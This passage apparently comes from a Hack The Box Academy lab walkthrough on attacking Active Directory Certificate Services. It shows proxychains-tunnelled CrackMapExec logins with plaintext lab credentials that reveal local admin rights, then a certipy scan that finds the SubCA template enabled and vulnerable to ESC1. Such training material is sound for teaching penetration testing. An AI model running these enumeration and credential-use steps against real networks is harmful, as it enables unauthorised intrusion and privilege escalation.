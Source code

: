 Code: shell

```shell
sudo sed -i "s/proxy_dns/#proxy_dns/" /etc/proxychains.conf
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ sudo sed -i "s/proxy_dns/#proxy_dns/" /etc/proxychains.conf
```

When tunneling via `proxychains` the `smb` protocol of `cme` or (`nxc`) and utilizing the credentials `cken:Superman001`, students will discover that `cken` is a local admin on the ADCS server `WS01`:

Code: shell

```shell
proxychains -q cme smb 172.16.19.3 172.16.19.5 -u cken -p Superman001
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q cme smb 172.16.19.3 172.16.19.5 -u cken -p Superman001

SMB         172.16.19.5     445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:lab.local) (signing:False) (SMBv1:False)
SMB         172.16.19.3     445    LAB-DC           [*] Windows 10.0 Build 17763 x64 (name:LAB-DC) (domain:lab.local) (signing:True) (SMBv1:False)
SMB         172.16.19.5     445    WS01             [+] lab.local\cken:Superman001 (Pwn3d!)
SMB         172.16.19.3     445    LAB-DC           [+] lab.local\cken:Superman001
```

Moreover, when tunneling via `proxychains` the `find` command of `certipy` along with the `-enabled` option, students will discover that the built-in template `SubCA`, which is vulnerable to `ESC1` by default (and allows `Client Authentication`), is enabled:

Code: shell

```shell
proxychains -q certipy find -u cken@lab.local -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -enabled -stdout
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy find -u cken@lab.local -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -enabled -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'lab-WS01-CA' via CSRA
[*] Got CA configuration for 'lab-WS01-CA'
<SNIP>
  3
    Template Name                       : SubCA
    Display Name                        : Subordinate Certification Authority
    Certificate Authorities             : lab-WS01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
```